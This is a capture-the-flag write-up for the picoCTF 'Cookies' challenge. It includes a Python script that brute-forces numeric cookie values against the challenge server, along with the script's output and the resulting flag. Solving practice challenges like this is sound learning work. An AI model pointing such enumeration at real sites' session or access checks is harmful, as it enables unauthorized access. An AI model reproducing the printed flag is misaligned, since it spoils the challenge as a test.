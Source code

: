 # 1. Cookies

> Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

## Solution:

The name of the challenge immediately gives away that this has something to do with browser cookies. Loading up the website, entering a random value (i chose `snickerdoodles` since it was the default) and going to the `Storage Tab -> Cookies` in developer settings, we do in fact see a cookie:
![CookieImage](../screenshots/Cookie1.png)
Trying out random phrases in the input field, we see that the cookie gets changed to a numeric value. After a lot of trial and error and searching around in the html files for any condition from which i could deduce the correct value for the cookie, I assumed that the best way to go forward is to just keep trying different values for the cookie. I made this script to do it:
```python
import requests

cookies = {'name':'1'}

while True:
    response = requests.get("http://mercury.picoctf.net:21485/check", cookies=cookies)
    print(f"Checking {cookies['name']}")
    text = response.text
    if "ctf{" in text.lower():
        print("=================FLAG FOUND===========================")
        print(text)
        break
    cookies['name'] = str(int(cookies['name']) + 1)
```

Sure enough, on cookie number 18:
```console
Checking 1
Checking 2
Checking 3
Checking 4
Checking 5
Checking 6
Checking 7
Checking 8
Checking 9
Checking 10
Checking 11
Checking 12
Checking 13
Checking 14
Checking 15
Checking 16
Checking 17
Checking 18
=================FLAG FOUND===========================
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```

In this response, we see the flag
## Flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
```

## Notes:
None

## Resources:
None


***

